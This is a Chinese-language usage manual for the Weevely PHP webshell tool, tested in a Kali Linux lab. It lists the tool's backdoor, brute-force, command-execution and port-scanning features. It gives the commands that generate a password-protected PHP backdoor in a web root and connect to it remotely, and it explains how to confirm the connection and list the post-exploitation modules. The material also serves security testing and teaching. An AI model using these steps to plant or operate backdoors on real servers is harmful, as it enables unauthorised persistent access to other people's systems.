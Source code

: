 # <center>Weevely webshell工具使用文档</center> #
### <center>版本\<1.0\></center> ###
## 修订历史记录 ##
|日期|版本|说明|作者|
|---|---|---|----|
|2016/09/19|\<1.0\>|Weevely webshell工具使用文档|Yaof|
## 目录 ##
## 1.&emsp;简介 ##
### 1.1&emsp;前言 ###
&emsp;&emsp;&emsp;weevely 是一款使用python编写的webshell工具（集webshell生成和连接于一身），采用C/S模式构建，可以算作是linux下的一款菜刀替代工具（限于PHP），具有很好的隐蔽性，在Linux下具有：<br>

* 服务器配置审计
* 后门放置
* 暴力破解
* 文件管理
* 资源搜索
* 网络代理
* 命令执行
* 系统信息收集
* 端口扫描等功能

### 1.2&emsp;测试环境 ###
&emsp;&emsp;&emsp;测试系统：Linux kali 4.6.0-kali1-amd64<br>
&emsp;&emsp;&emsp;测试环境：kali自带Apache+php+MySQL环境<br>
&emsp;&emsp;&emsp;weevely工具版本：weevely 3.2.0<br>![Alt text](/picture/weevely_version.png)
## 2.&emsp;weevely工具操作 ##
### 2.1&emsp;生成后门 ###
&emsp;&emsp;&emsp;生成php后门：通过命令行输入命令：<code><font color=red>weevely generate hello /var/www/html/testformd.php</font></code>生成一个路径为/var/www/html下的文件名为testformd.php的php文件，其中hello为后门连接的密码。<br>![Alt text](/picture/weevely_make.png)
### 2.2&emsp;连接后门 ###
&emsp;&emsp;&emsp;通过已知的连接密码去连接php后门文件：在命令行中输入命令<code><font color=red>weevely http://192.168.182.137/backdoor.php hello</font></code>进行远程连接后门文件。其中http://192.168.182.137/backdoor.php为你想要连接的php后门文件路径，hello为连接密码。<br>![Alt text](/picture/weevely_connect.png)<br>当命令行页面显示为截图所示时即为连接页面，但并没有去验证密码的正确性，所以当出现这个页面时并不能代表你成功连接到后门。当你在当前命令行中输入任意命令就会触发源代码中的密码验证机制。来进一步去判断连接密码的正确性。（**具体验证机制说明将在下文单独说明**）如果输入任意命令时出现以下画面代表后门连接成功:<br>![Alt text](/picture/connect_success.png)
出现错误提示时代表连接失败：<br>![Alt text](/picture/connect_failed.png)
### 2.2&emsp;后门操作 ###
&emsp;&emsp;&emsp;连接后门成功后，在命令行中按两次Tab键可查看weevely的可利用模块：<br>![Alt text](/picture/weevely_function.png)<br>
模块功能说明如下图所示：<br>![Alt text](/picture/function_help.png)
